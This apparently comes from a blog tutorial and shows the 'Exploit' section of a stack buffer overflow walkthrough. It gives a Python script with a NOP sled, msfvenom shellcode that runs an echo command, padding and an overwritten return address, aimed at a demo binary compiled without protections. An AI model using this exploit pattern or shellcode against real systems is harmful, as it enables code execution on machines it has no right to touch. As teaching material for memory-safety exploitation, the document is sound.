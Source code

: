 
<h2>Exploit</h2>

<p>Let’s put it all together in a python script. Notice the file format is little endian and we need to convert our EIP address appropriately.</p>

{% highlight python %}
from struct import pack

# Turning off ASLR
# echo 0 > /proc/sys/kernel/randomize_va_space

# Turning off stack canaries and allows stack execution (remove NX)
# gcc bof_demo.c -o bof_demo -z execstack -fno-stack-protector -m32

payload_len = 616		

nop = "\x90"*500

# EIP found by checking pwndbg out put using dd $esp-640
#python -c 'print "A"*1000' > in.txt
#pwndbg> r < in.txt 
#pwndbg> dd $esp-640
#ffffd080     5655701b ffffd094 000003e8 565561c8
#ffffd090     f7fce074 41414141 41414141 41414141
#ffffd0a0     41414141 41414141 41414141 41414141
#ffffd0b0     41414141 41414141 41414141 41414141

eip = 0xffffd094

# msfvenom -p linux/x86/exec CMD='echo "This is awesome!"' -b '\x00' -f python
buf =  ""
buf += "\xb8\x0d\xdf\x57\xba\xd9\xc5\xd9\x74\x24\xf4\x5a\x31"
buf += "\xc9\xb1\x0f\x31\x42\x15\x83\xc2\x04\x03\x42\x11\xe2"
buf += "\xf8\xb5\x5c\xe2\x9b\x18\x05\x7a\xb6\xff\x40\x9d\xa0"
buf += "\xd0\x21\x0a\x30\x47\xe9\xa8\x59\xf9\x7c\xcf\xcb\xed"
buf += "\x67\x10\xeb\xed\xf2\x73\x83\x82\xdc\x51\x07\x35\x74"
buf += "\xe5\x87\xac\xf5\x29\xa6\x59\x9f\x5a\x47\xcb\x3a\xbc"
buf += "\xb5\x13\x92\xed\x30\xf2\xd1\x92"

buf_len = len(buf)
nop_len = len(nop)
padding = "A"*(payload_len-nop_len-buf_len)

payload = nop + buf + padding + pack("<Q", eip)

print payload
{% endhighlight %}
